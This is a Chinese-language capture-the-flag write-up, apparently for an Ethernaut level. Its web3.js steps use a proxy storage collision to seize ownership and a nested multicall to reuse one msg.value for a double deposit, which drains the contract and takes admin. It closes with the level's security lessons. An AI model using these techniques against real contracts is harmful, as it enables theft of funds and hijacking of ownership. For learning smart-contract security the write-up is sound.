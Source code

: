 ```js
await web3.eth.getStorageAt(instance, 0)  // owner
//'0x000000000000000000000000<level address>'
data = await contract.methods["proposeNewAdmin(address)"].request(player).then(v => v.data)
//得到calldata '0xa6376746000000000000000000000000<player address>'
web3.eth.sendTransaction({from: player, to: instance, data: data})
await contract.owner()//目前owner为player
```

目的是改变代理合约的admin，和钱包合约的maxBalance位于同一个位置，可以用 setMaxBalance() 设置

setMaxBalance 只有当合约的余额为0时才能设置新maxBalance，那么接下来考虑先把账户余额清空才能设置

```js
await contract.addToWhitelist(player)//设置白名单
await web3.utils.fromWei(await web3.eth.getBalance(instance))
//账户余额 0.001 eth
```

注意到multicall函数，可以一次执行多个transaction

multicall从数据中提取 `function selector`（签名的前 4 个字节），并确保deposit只调用一次

但可以通过 multicall 中执行两个 multicall，每个 multicall 分别调用一次 deposit

这样只用一份msg.value，能让玩家账户余额加两次

构造calldata

```js
// deposit() method
depositData = await contract.methods["deposit()"].request().then(v => v.data)

// multicall() method with param of deposit function call signature
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
//'0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```

这时候合约账户有0.002 eth，balances[player] 有 0.002 eth，直接全转，然后设置maxBalance即可

```js
await contract.execute(player, toWei('0.002'), 0x0)
await contract.setMaxBalance(player)
```

解出题目后也是给出了问题所在，存储冲突和迭代消耗eth的问题：

> Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.
>
> Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, `msg.value` will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple `delegatecall`s to a function that looks safe on its own could lead to unwanted transfers of ETH, as `delegatecall`s keep the original `msg.value` sent to the contract.
